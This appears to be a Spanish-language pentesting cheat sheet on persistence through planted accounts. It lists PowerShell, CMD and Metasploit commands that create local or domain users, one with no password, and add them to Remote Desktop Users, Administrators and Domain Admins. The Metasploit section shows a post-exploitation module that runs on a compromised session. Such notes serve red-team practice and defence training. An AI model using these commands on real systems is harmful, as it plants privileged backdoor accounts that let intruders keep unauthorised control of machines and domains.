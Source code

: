 **PowerShell**

```bash
# Crear nuevo usuario
New-LocalUser -Name "<Username>" -NoPassword

 # Añadir a grupo RDP
Add-LocalGroupMember -Group "Remote Desktop Users" -Member "<Username>"

# Añadir a administradores locales
Add-LocalGroupMember -Group "Administrators" -Member "<Username>"
```

### Cuenta de Dominio

**CMD**

```bash
# Crear usuario de Dominio
net user "<Username>" "<Password>" /add /domain

# Añadir a grupo Domain Admins
net group "Domain Admins" "<Username>" /add /domain
```

**Metasploit**

```bash
use post/windows/manage/add_user 

# Change ADDTODOMAIN to FALSE to create local account

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   ADDTODOMAIN  true             yes       Add to Domain if true, otherwise add locally
   ADDTOGROUP   true             yes       Add group if it does not exist
   GROUP        Domain Admins    no        Add user into group, creating it if necessary
   PASSWORD     Password123      no        Password of the user
   SESSION      Session 1        yes       The session to run this module on
   TOKEN                         no        Username or PID of the token which will be used (if blank, Domain Admin tokens will be enumerated)
   USERNAME     Yorch            yes       The username of the user to add (not-qualified, e.g. BOB)
```

**PowerShell**

```bash
$Name = "<Username>"
$Domain = "<Domain>"
$Password = "Password123"
$SecurePass = ConvertTo-SecureString -String $Password -AsPlainText -Force
$NewUser = New-ADUser `
    -Name "$Name"`
    -SamAccountName "$Name"`
    -UserPrincipalName "$Name@$Domain"`
    -AccountPassword $SecurePass;  
Enable-ADAccount -Identity "$Name";
Add-ADGroupMember -Identity "Domain Admins" -Members "$Name"
```
